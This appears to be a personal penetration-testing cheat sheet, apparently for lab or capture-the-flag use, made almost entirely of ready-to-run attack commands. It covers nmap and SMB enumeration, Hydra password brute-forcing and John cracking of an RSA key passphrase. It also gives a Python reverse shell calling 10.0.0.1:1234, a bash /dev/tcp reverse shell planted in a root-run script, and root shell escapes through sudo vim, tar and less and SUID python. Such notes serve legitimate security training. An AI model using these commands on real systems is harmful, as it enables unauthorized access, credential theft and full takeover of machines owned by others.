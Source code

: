 # NMAP Basic scan with outfile 

nmap -sC -sV -oN /path/to/file ip

# Enum4linux-ng


**_enumerating smb clients and servers_**

_use example_

python3 enum4linux-ng.py -U -A -R ip

# Hydra example

hydra -l username -P /path/to/wordlist proto://ip

# Cracking the passphrase of an rsa key with John

sh2john.py rsa_file > file.txt
john file.txt

#Checkin for suid on a system run the following commands
find / -perm -u=s -type f 2>/dev/null

# Different ways to read a file

while read line; do echo $line done; < file
cat file
grep . file


# Pentestmonkey reverse shell examples
_in python it would be, note that if the machine doesnt have python2 installed(modern machines) it works with python3_

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


#Privilege scalation with vim

there are 2 ways of running a shell as root with vim

##_First option_
sudo vim 
 -> :set shell=/bin/sh
 -> :shell

##_Second option_
sudo vim -c ':!/bin/sh'


#Privilege scalation with tar

If the user is allowed in the sudoers file we can easily become root by running _sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh_

#Using and understanding netcat

to set up a listening port in nc

nc -lnvp portnumber

#Read pcaps

Could use wireshark

If you are looking for a password strings will just do the job for it and it will provide more clarity

#Bash remote shell

echo 'bash -c "bash -i >& /dev/tcp/ip/port 0>&1"' > /path/to/script run by root

#Privesc with less
you can run less with _sudo_ against a file and enter in less's command mode by typing !/bin/sh

Example

sudo less file.log
!/bin/sh

#GTFOs bin with python

In order to get a privileged shell with python (only if it has the suid set) we can run

python -c 'import os; os.system("/bin/sh")'

#Stable shell with pty

When we stabblish the first shell with nc it tends not to have a pty which for some porcesses it can be stressful

to solve that you can run this python adhoc command python -c 'import pty; pty.spawn("/bin/bash")' which gets you a tty that lets you freely run all the commands you need without prompting any error nor warning about not having a tty
